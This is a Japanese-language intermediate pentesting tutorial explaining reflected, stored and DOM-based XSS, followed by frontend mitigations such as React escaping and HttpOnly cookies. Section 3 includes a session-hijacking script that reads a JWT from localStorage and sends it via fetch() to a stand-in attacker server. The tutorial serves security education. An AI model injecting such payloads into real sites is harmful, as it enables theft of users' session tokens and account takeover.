

# ペンテスト 中級：XSS とクライアント側 (フロントエンド) の攻撃

SQLインジェクションがデータベース（バックエンド）を攻撃するのに対し、**XSS (クロスサイトスクリプティング / Cross-Site Scripting)** はアプリケーションのユーザー（フロントエンド）を攻撃します。XSSの目的は、サーバーからデータを盗むことではなく、ユーザーのブラウザからデータ（セッションCookieやJWTトークンなど）を盗むことです。

## 1. XSS を理解する

XSSは、Webアプリケーションがユーザーに情報（フォーラムのコメントなど）の入力を許可し、その後、システムがその情報を「サニタイズ（無害化）」またはクリーニングせずに他のユーザーの画面に表示する場合に発生します。



## 2. XSS の種類

すべてのペンテスターが探す3つの主なバリエーションがあります。

### 反射型 XSS (Reflected XSS)
攻撃は URL 内で行われます。攻撃者はメールでリンクを送信します：
`https://banco.com/buscar?q=<script>alert('Hack')</script>`
ページがURLからパラメータ `q` を取得し、それをHTMLに直接描画した場合（「検索結果：`<script>...`」）、ブラウザはそれを即座に実行します。

### 蓄積型 XSS (Stored XSS - 最も危険)
悪意のあるスクリプトはデータベースに保存されます（例：ユーザーのプロフィールの説明やツイート）。奇妙なリンクをクリックしなくても、プロフィールにアクセスした人は自動的にハッキングされます。

### DOM ベースの XSS (DOM-Based XSS)
脆弱性は、フロントエンド（ReactやVueなど）のJavaScriptコード内で完全に発生します。ユーザーが制御するデータを使用して、Vanilla JS の `innerHTML` や React の `dangerouslySetInnerHTML` などの危険な関数を使用した場合によく発生します。

## 3. 実践的なデモンストレーション (セッションハイジャック)

無害な `alert('Hack')` の代わりに、実際の攻撃者はコメントに次のようなものを挿入します：

```html
<script>
  // LocalStorage から JWT トークンを盗みます
  const token = localStorage.getItem('access_token');
  // それをバックグラウンドで静かに攻撃者のサーバーに送信します
  fetch('https://servidor-del-hacker.com/robar?jwt=' + token);
</script>
```
サイトの管理者（Administrator）がコメントをレビューするためにアクセスすると、ブラウザはこのスクリプトを実行し、攻撃者は管理者としての完全なアクセス権を取得します。

## 4. フロントエンドでの緩和策
* **React はデフォルトで安全です:** React で `{variable}` を使用すると、フレームワークは自動的に危険な文字をエスケープします（`<` は `&lt;` に変換されます）。
* **HttpOnly クッキー:** 重要なアクセストークンを `LocalStorage` や通常のCookieに**絶対に**保存しないでください。`HttpOnly` および `Secure` フラグが付いたCookieに保存します。これにより、JavaScript（および結果として XSS）がCookieを読み取ることは物理的に不可能になります。

**上級レベル**では、リクエスト偽造攻撃 (CSRF/SSRF) と、サーバーを騙す方法について詳しく分析します。
